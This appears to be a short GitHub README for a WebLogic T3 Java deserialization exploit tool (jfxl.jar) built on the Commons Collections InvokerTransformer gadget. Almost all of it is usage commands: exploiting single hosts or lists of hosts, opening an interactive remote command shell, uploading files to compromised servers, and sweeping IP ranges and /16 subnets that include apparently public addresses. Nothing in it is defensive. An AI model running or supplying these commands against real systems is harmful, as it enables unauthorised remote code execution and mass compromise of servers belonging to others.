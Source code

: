 # weblogic_java_des
------------
weblogic T3 collections java InvokerTransformer Transformer  InvokerTransformer weblogic.jndi.WLInitialContextFactory

# jdk
------------
jdk 1.6+
# how use?
------------
<code>
<pre>
* 0 、ips 

java  -jar ./bin/jfxl.jar 192.168.10.90:80
java  -jar ./bin/jfxl.jar 192.168.10.90:80;192.168.10.190:7001;192.168.10.33:7001

* 1、cmd shell Interactive -i
java -jar jfxl.jar 119.17.248.52:8080 -i
quit or exit out the shell
[file upload 
put localFileName remouteFileName
*  2、java -jar jfxl.jar 119.177.248.52-155:8080
*  3、java -jar jfxl.jar 119.177.248.52/16:8080
</pre>
</code>
# demo
------------
<img src="https://github.com/hktalent/weblogic_java_des/blob/master/demo/1.jpeg?raw=true" />
